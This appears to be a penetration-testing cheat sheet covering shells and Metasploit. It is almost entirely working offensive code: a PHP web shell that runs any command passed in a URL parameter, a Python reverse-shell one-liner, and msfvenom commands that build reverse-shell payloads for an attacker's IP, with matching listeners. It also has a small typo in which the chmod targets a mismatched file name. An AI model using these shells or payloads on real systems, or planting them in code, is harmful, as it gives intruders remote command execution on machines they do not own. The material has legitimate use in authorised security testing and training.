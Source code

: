 ```bash
# Is UAC enabled?
run post/windows/gather/win_privs
```

### Shells

```bash
system('ls');

echo 'ls';

passthru("ls");

# Python
import os
exit_code = os.system('ls')
output    = os.popen('ls').read()
```

Simple php shell:
```php
<html>
<?php
  echo "<form method=GET><input type=text name=cmd><input type=submit value=ok></form>";
  system($_GET["cmd"]);
```

Reverse Shell is the most common one we'll use:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### msfvenom

```bash
# msfvenom
# => list payloads for linux
msfvenom --list payloads | grep x64 | grep linux | grep reverse

# => Generate Staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=<attacker_IP> lport=443 -f elf -o r443
chmod +x r433

# => Generate Stagelesss payload
> msfvenom --list payloads | grep php | grep reverse
> msfvenom -p php/reverse_php lhost=<attacker_IP> lport=443 -o r443.php

# => Listener staged
$ msfconsole
> use exploit/multi/handler
> set payload linux/x64/shell/reverse_tcp # has to be exactly the same!
> set lhost 0.0.0.0
> set lport 443
> run # wait for session

# => Listener Stageless
> nc -lvp 4343
# or listen to in MSF with exact payload and the exploit/multi/handler


# Difference between:
#  linux/x64/shell/reverse_tcp
#  linux/x64/shell_reverse_tcp
```